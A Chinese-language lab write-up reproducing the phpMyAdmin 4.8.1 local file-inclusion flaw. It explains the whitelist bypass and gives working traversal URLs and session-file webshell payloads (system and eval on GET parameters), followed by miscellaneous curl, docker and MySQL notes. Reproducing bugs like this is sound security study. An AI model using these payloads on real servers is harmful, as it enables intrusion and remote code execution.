




# PhpMyAdmin4.8.1 文件包含漏洞复现笔记


## 漏洞原理

index.php的代码:

```php
if (! empty($_REQUEST['target'])
    && is_string($_REQUEST['target'])
    && ! preg_match('/^index/', $_REQUEST['target'])
    && ! in_array($_REQUEST['target'], $target_blacklist)
    && Core::checkPageValidity($_REQUEST['target'])
) {
    include $_REQUEST['target'];
    exit;
}
```

if判断进入`  include $_REQUEST['target'];`需要经过5个判断：

1. `$_REQUEST['target']`不能为空

2. `$_REQUEST['target']`为字符串

3. `$_REQUEST['target']`不能以index开头

4. `$_REQUEST['target']`不在`$target_blacklist`数组内

5. 需要满足`Core::checkPageValidity($_REQUEST['target'])`

其中前三点比较好明白，重点看第四点和第五点：

这里首先我们先看一下第4点`$target_blacklist`是个什么东西，`$target_blacklist`在index.php的第50～52行 

```php
$target_blacklist = array (
    'import.php', 'export.php'
);
```

所以这里第四点只要满足target 参数不是 import.php 或 export.php 就行。

然后第5点我们说到需要满足`Core::checkPageValidity($_REQUEST['target'])`，这里跟进一下看看`checkPageValidity`这个函数具体在干嘛。 

 函数具体位置在libraries\classes\core.php的443～476行 

```php
public static function checkPageValidity(&$page, array $whitelist = [])
{
    if (empty($whitelist)) {
        $whitelist = self::$goto_whitelist;
    }
    if (! isset($page) || !is_string($page)) {
        return false;
    }

    if (in_array($page, $whitelist)) {
        return true;
    }

    $_page = mb_substr(
        $page,
        0,
        mb_strpos($page . '?', '?')
    );
    if (in_array($_page, $whitelist)) {
        return true;
    }

    $_page = urldecode($page);
    $_page = mb_substr(
        $_page,
        0,
        mb_strpos($_page . '?', '?')
    );
    if (in_array($_page, $whitelist)) {
        return true;
    }

    return false;
}
```

问题出在下面的这串代码

```php
$_page = urldecode($page);
$_page = mb_substr(
    $_page,
    0,
    mb_strpos($_page . '?', '?')
);
if (in_array($_page, $whitelist)) {
    return true;
}
```

这里会将page参数进行url解码，然后判断是否在`$whitelist`是的话返回true。

这里可以看看`$whitelist`有哪些。

```
if (empty($whitelist)) {
    $whitelist = self::$goto_whitelist;
}
```

 跟进`$goto_whitelist`看到下面这些白名单数组。 

```php
public static $goto_whitelist = array(
    'db_datadict.php',
    'db_sql.php',
    'db_events.php',
    'db_export.php',
    'db_importdocsql.php',
    'db_multi_table_query.php',
    'db_structure.php',
    'db_import.php',
    'db_operations.php',
    'db_search.php',
    'db_routines.php',
    'export.php',
    'import.php',
    'index.php',
    'pdf_pages.php',
    'pdf_schema.php',
    'server_binlog.php',
    'server_collations.php',
    'server_databases.php',
    'server_engines.php',
    'server_export.php',
    'server_import.php',
    'server_privileges.php',
    'server_sql.php',
    'server_status.php',
    'server_status_advisor.php',
    'server_status_monitor.php',
    'server_status_queries.php',
    'server_status_variables.php',
    'server_variables.php',
    'sql.php',
    'tbl_addfield.php',
    'tbl_change.php',
    'tbl_create.php',
    'tbl_import.php',
    'tbl_indexes.php',
    'tbl_sql.php',
    'tbl_export.php',
    'tbl_operations.php',
    'tbl_structure.php',
    'tbl_relation.php',
    'tbl_replace.php',
    'tbl_row_action.php',
    'tbl_select.php',
    'tbl_zoom_select.php',
    'transformation_overview.php',
    'transformation_wrapper.php',
    'user_password.php',
);
```


### 漏洞利用

网上的payload：`db_sql.php%253/../../../../../../etc/passwd`其中`db_sql.php`为白名单上的就可替换绕过。

```php
$_page = mb_substr(
    $page,
    0,
    mb_strpos($page . '?', '?')
);
if (in_array($_page, $whitelist)) {
    return true;
}
```

 这里有个很关键的点，就是 `urldecode` 了我们传进来的 `$page`，然后又获取了问号前的文件名，所以我们把问号 `url` 编码一下都没问题，像这样： 

db_datadict.php%3F/../a.txt

 `include` 是允许 `%3f` 作为文件名的一部分

因为浏览器还是会解码一次，所以需要把`?`再编码一次，就有了一开始的payload:

`index.php?target=db_sql.php%253F/../../../../../../etc/passwd`


## 漏洞复现过程

#### 手工docker搭建

[4.8.xx版本](  https://github.com/phpmyadmin/docker/tree/4.8.1  )

- 首先访问`/etc/passwd`检测是否有文件包含漏洞：

  ` http://192.168.56.107:8183/index.php?target=db_sql.php%253F/../../../../../../../../etc/passwd`

  

  执行sql语句：`select '<?php phpinfo();exit;?>'`

  ` <?php system("id");?>  `

  ` select "<?php system($_GET['cmd']); ?>" `
  
  访问链接：`http://192.168.56.107:8000/index.php?target=db_sql.php%253f/../../../../../../../../sessions/sess_e20733fdc899c7a69bb82e6016ab00f1`能看到phpinfo()的页面。
  
  


#### vsplate在线漏洞复现环境镜像搭建

- 首先访问`/etc/passwd`检测是否有文件包含漏洞：

  ` http://192.168.56.107:8002/index.php?target=db_sql.php%253F/../../../../../../../../etc/passwd`

  

- 执行sql语句`select '<?php phpinfo();exit;?>'`，运行日志会记录在sess_sessionId的文件里，访问这个文件能看到phpinfo()的页面

- %3c ?php phpinfo();exit;? %3e

  `http://192.168.56.107:8002/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_177d333c3df7d569cac50f460e31ea56`

  


- getshell payload：
  - `select '<?php eval($_GET[a]);?>'`
  - ` http://192.168.56.107:8002/index.php?a=phpinfo();&target=db_sql.php%3f/../../../../../../tmp/sess_b14d4480c3ad5c1da05ea51e62081289`

## 其他

### curl

[curl 的用法指南]( https://www.ruanyifeng.com/blog/2019/09/curl-reference.html )

- -F  参数用来向服务器上传二进制文件。

- -s  参数将不输出错误和进度信息。 

- -S   参数指定只输出错误信息，通常与`-s`一起使用。 

-  -L 参数会让 HTTP 请求跟随服务器的重定向。curl 默认不跟随重定向。 

-  `-o`参数将服务器的回应保存成文件，等同于`wget`命令。 

  `curl -o example.html https://www.example.com`

   上面命令将`www.example.com`保存成`example.html`。 

### docker

运行数据库：docker run --name mysql -e MYSQL_ROOT_PASSWORD=root -d mysql:latest

更改数据库的密码：

[参考]( https://stackoverflow.com/questions/49948350/phpmyadmin-on-mysql-8-0 )

```sql
mysql -u root -p
ALTER USER root IDENTIFIED BY 'root';
ALTER USER root IDENTIFIED WITH mysql_native_password BY 'PASSWORD';
```

查看user表中的用户

```sql
select User,Host,authentication_string from user;
```

[apache服务的phpadmin]( https://github.com/jcavat/docker-lamp )

启动数据库：

` docker-compose exec db mysql -u root -ptest ` 

###  dockerfile 

- export

### Linux命令

- mktemp 命令用于建立暂存文件。 

   mktemp [-qu] [文件名参数] ：mktemp tmp.xxxx

## 参考

phpmyadmin4.8.1版本源码：[phpmyadmin-4.8.1版本源码]( https://github.com/phpmyadmin/docker/tree/4.8.1 )

漏洞复现：[cve-2018-19968-phpmyadmin任意文件包含-远程代码执行漏洞复现]( https://zgao.top/cve-2018-19968-phpmyadmin任意文件包含-远程代码执行漏洞复现/ )

相关渗透利用总结：[phpmyadmin相关]( http://t3ngyu.leanote.com/post/PHPmyadmin )

在线复现教程：[phpMyAdmin 4.8.x 本地文件包含漏洞利用]( https://blog.vulnspy.com/2018/06/21/phpMyAdmin-4-8-x-LFI-Exploit/ )

后台getshell:[phpmyadmin4.8.1后台getshell-ChaMd5安全团队]( https://mp.weixin.qq.com/s/HZcS2HdUtqz10jUEN57aog )

[phpMyAdmin 文件包含复现分析-先知社区]( https://xz.aliyun.com/t/5534 )

[docker 复现过程]( https://www.cnblogs.com/bmjoker/p/9897436.html )	

[php.ini文件相关]( https://community.clearlinux.org/t/php-fpm-is-it-excluded-from-the-stateless-paradigm-and-not-going-to-be-overwritten-by-swupd/1607 )

[PastCgi与php-fpm]( https://segmentfault.com/q/1010000000256516 )

[selenuim如何获得请求返回结果](  https://xinancsd.github.io/Python/anti_crawl_strategy.html  )

